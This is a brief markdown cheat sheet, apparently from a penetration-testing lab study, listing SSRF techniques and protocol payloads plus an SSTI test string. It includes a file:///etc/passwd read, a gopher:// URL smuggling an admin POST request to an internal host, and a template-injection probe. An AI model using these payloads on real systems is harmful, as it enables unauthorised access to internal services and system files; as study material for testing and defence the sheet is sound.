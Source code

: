 ﻿### **SSRF (Server-Side Request Forgery)**

#### Exploitation

|Technique|Description|
|---|---|
|Internal Portscan|Accessing ports on localhost|
|Accessing Restricted Endpoints|Interacting with internal services|

#### Protocols

| Protocol    | Example                                                                                                                                                                                              |
| ----------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `http://`   | `http://127.0.0.1/`                                                                                                                                                                                  |
| `file://`   | `file:///etc/passwd`                                                                                                                                                                                 |
| `gopher://` | `gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin` |


### **SSTI (Server-Side Template Injection)**

| Category     | Example                                         |
| ------------ | ----------------------------------------------- |
| Exploitation | Templating Engines dynamically generate content |
| Test String  | `${{<%[%'"}}%\.`                                |
